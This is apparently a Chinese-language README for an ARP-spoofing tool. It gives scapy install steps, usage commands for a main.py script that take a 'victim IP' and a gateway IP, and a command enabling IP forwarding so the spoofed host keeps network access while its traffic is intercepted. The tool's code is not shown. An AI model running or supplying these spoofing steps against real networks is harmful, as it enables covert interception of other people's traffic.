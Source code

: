 # ARP欺骗代码
本项目可实现局域网的arp欺骗。
# 使用方法
可以将目标主机发往网关的流量定向骗至本主机
安装 scapy 模块
``` bash
sudo apt install python-scapy
```
``` bash
# sudo ./venv/bin/python main.py -i eth0 -t 受害人ip -m rep -s 网关ip
# sudo ./venv/bin/python main.py -i eth0 -t 受害人ip -m req -s 网关ip
```
开启流量转发
> 不开启的话，被欺骗对象无法上网
``` bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```



